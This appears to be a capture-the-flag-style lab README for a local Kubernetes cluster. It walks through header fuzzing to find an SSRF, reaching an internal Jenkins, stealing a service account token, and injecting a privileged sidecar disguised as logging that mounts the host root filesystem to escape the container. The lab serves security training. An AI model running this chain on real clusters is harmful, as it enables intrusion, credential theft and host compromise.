 # Getting Setup

## Start the cluster
```
kind delete cluster
./setup.sh
```

## Check the deployment status
```
kubectl get pods
```

You can hit the externally facing API gateway hitting `http://localhost:31337/api`.

For example `curl http://localhost:31337/api`.

# Exploit an SSRF flaw in the gateway
*ps there is actually another way to gain access to the jenkins instance. see if you can figure it out*

## Discover the HTTP headers that trigger a different behavior from the gateway

You can do this with pretty much any tool you like, but we're going to use ffuf because it's 1337 and fast. This command will fuzz for headers using a list from seclists. It will match against some interesting response status codes. Additionally, it will save the request-response pairs to the directory `req_res` so that you can examine them for interesting response bodies.

```
ffuf -w /opt/samurai/wordlists/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers:FUZZ -u http://localhost:31337/api -H "FUZZ: foo" -c -mc 200,403,500,503 -od req_res
```

You can also proxy the traffic from ffuf through BurpSuite if you want using `-x 127.0.0.1:8080`

When we discover a HTTP header that gives us an interesting response such as a 500, we can then fuzz the value of said header.

```
ffuf -w k8s-labs/payloads/wordlist -u http://localhost:31337/ -H "X-Original-Host: http://FUZZ:8080" -c -od req_res -x 127.0.0.1:8080
```

For this one we are looking for indications that the backend is trying to resolve the values to IP addresses. So, for example if we get an error message that seems to indicate that it failed to resolve, then we know that value is not a viable SSRF target. However, if a value causes a timeout, or possibly a different error, then we can guess that it might likely be a viable target, for which we would need to then try to guess a port number for.

## Hit the jenkins service through SSRF
```
curl http://localhost:31337 -H "X-Original-Host: http://jenkinssvc:8080"
```

We should see a resonse which is the Jenkins dashboard comeback. Indicating that we were able to hit a internal Jenkins service via the API gateway SSRF.

# Exploit the access to Jenkins
To do this we can use the raw HTTP request which is found in the file `k8s-labs/payloads/jenkinsexploit.http`. This is just a convenience to exploit the `scriptText` endpoint which Jenkins has enabled by default. This particular payload will exfiltrate the Jenkins containers kubernetes secret for us, which we can then use with `kubectl` to further expand our access to the cluster.

You could also use a different Groovy payload here, such as a reverse shell to gain a shell into the Jenkins container, and go from there. Try it out!

## Use the stolen kubernetes service account token to do sidecar injection
This is pretty much the final step. We can check and see what the stolen service account token allows us to do, and the abuse it's capabilities to inject a sneaky sidecar container that allows us to escape to the host node.

Set the token as an env var in your terminal.
```
export JWT="<jwt value here>"
```

Check it's capabilities.
```
kubectl --token=$JWT auth can-i --list
```

Inject a side-car container to the jenkins service which looks like a logging sidecar.

```
kubectl --token=$JWT edit deployment jenkinssvc
```

We want to edit the deployment to look like the deployment spec below.
The regions that are updates are surrouned with the following string

```
# ===================================
```

### Modifed Spec

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  annotations:
    deployment.kubernetes.io/revision: "2"
  creationTimestamp: "2023-11-01T18:33:36Z"
  generation: 2
  labels:
    app: jenkinssvc
  name: jenkinssvc
  namespace: default
  resourceVersion: "12117"
  uid: 58eedc88-93f6-4030-9534-0e9b875abba4
spec:
  progressDeadlineSeconds: 600
  replicas: 1
  revisionHistoryLimit: 10
  selector:
    matchLabels:
      app: jenkinssvc
  strategy:
    rollingUpdate:
      maxSurge: 25%
      maxUnavailable: 25%
    type: RollingUpdate
  template:
    metadata:
      creationTimestamp: null
      labels:
        app: jenkinssvc
    spec:
      containers:
      # ===================================
      - command:
        - sleep
        - infinity
        image: k8s-labs-base:v1
        imagePullPolicy: IfNotPresent
        name: jenkins-logging-sidecar
        resources: {}
        securityContext:
          privileged: true
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:
        - mountPath: /mnt
          mountPropagation: Bidirectional
          name: log-volume
      # ===================================
      - env:
        - name: JAVA_OPTS
          value: -Djenkins.install.runSetupWizard=false
        image: k8s-labs-jenkinssvc:v1
        imagePullPolicy: IfNotPresent
        name: jenkinssvc
        ports:
        - containerPort: 8080
          name: http-port
          protocol: TCP
        - containerPort: 50000
          name: jnlp-port
          protocol: TCP
        resources: {}
        terminationMessagePath: /dev/termination-log
        terminationMessagePolicy: File
        volumeMounts:
        - mountPath: /var/jenkins_home
          name: jenkins-home
      dnsPolicy: ClusterFirst
      restartPolicy: Always
      schedulerName: default-scheduler
      securityContext: {}
      serviceAccount: deploy-manager-sa
      serviceAccountName: deploy-manager-sa
      terminationGracePeriodSeconds: 30
      volumes:
      # ===================================
      - hostPath:
          path: /
          type: ""
        name: log-volume
      # ===================================
      - emptyDir: {}
        name: jenkins-home
status:
  availableReplicas: 1
  conditions:
  - lastTransitionTime: "2023-11-01T18:33:39Z"
    lastUpdateTime: "2023-11-01T18:33:39Z"
    message: Deployment has minimum availability.
    reason: MinimumReplicasAvailable
    status: "True"
    type: Available
  - lastTransitionTime: "2023-11-01T18:33:36Z"
    lastUpdateTime: "2023-11-01T19:12:33Z"
    message: ReplicaSet "jenkinssvc-7ddbf46c7f" has successfully progressed.
    reason: NewReplicaSetAvailable
    status: "True"
    type: Progressing
  observedGeneration: 2
  readyReplicas: 1
  replicas: 1
  updatedReplicas: 1
```

Once that successfully updates we can exec into our new container.

```
kubectl --token=$JWT exec jenkinssvc-<hash_here> -it --container jenkins-logging-sidecar -- /bin/bash
```

Once we have the shell in the sidecar container we can modify the host node filesystem by writing a flag to `/mnt/flag.txt`. 

You can check the file was created on the node filesystem with the following command in another terminal.

```
docker exec kind-control-plane -- ls /flag.txt
```

## That's it!

You are of course free to tinker further, but that demonstrates the ability to compromise the host node using a bidirectional volume mount from within a sidecar container!
